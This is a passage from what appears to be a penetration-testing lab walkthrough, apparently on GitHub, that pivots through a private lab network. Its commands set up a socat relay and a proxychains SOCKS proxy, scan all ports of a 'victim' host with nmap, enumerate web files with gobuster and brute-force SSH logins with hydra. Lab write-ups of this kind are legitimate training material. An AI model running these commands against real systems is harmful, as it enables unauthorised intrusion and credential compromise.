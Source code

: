         #Execute this from the 10.10.10.2 machine
        ./socat TCP-LISTEN:4237,fork TCP:10.10.10.1:1234
        ```
        
        ![image 33](https://github.com/user-attachments/assets/26b9161d-7286-4135-ac52-2aaf7595b2a1)

        
        ![image 34](https://github.com/user-attachments/assets/bba19f90-0ab9-4bfc-9b9b-b5b22d906b8f)

        
        - Add in `/etc/proxychains4.conf` the following line
            
            ```bash
            socks5 127.0.0.1 8888
            ```
            
- 30.30.30.3 (Victim 3)
    - We scanned all the ports.
        
        ```bash
        seq 1 65535 | xargs -P 500 -I {} proxychains nmap -sT -Pn -p{} -open -T5 -v -n 30.30.30.3 2>&1 | grep "tcp open"
        ```
        
        ![image 35](https://github.com/user-attachments/assets/2595fc98-2fd3-4ea6-b006-7bb44fdd02ac)

        
    
    - As we see that you have a web service on port `80`, we perform an enumeration and find a `secret.php` file.
        
        ```bash
        proxychains4 gobuster dir -u http://30.30.30.3 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --proxy socks5://127.0.0.1:8888 -x .php,.txt,.html,.bak
        ```
        
        ![image 36](https://github.com/user-attachments/assets/493f7e2a-230c-4af4-b000-6f40dbff87b3)

        
    
    - We access the page defining a proxy and see a potential user
        
        ![image 37](https://github.com/user-attachments/assets/642cc93e-f138-4ebb-905e-5222f6480aac)

        
    
    - We make a brute force attack to try to connect via ssh
        
        ```bash
        proxychains hydra -l mario -P /usr/share/wordlist/rockyou.txt ssh://30.30.30.3 2>/dev/null
        ```
        
        ![image 38](https://github.com/user-attachments/assets/df549df8-dcb0-45ba-9fea-f945d655c41f)

        
    
    - We connect via ssh and see what commands you can execute as sudo without providing a password
        
        ![image 39](https://github.com/user-attachments/assets/1078956d-825b-41f4-9bad-85ed7123acc5)
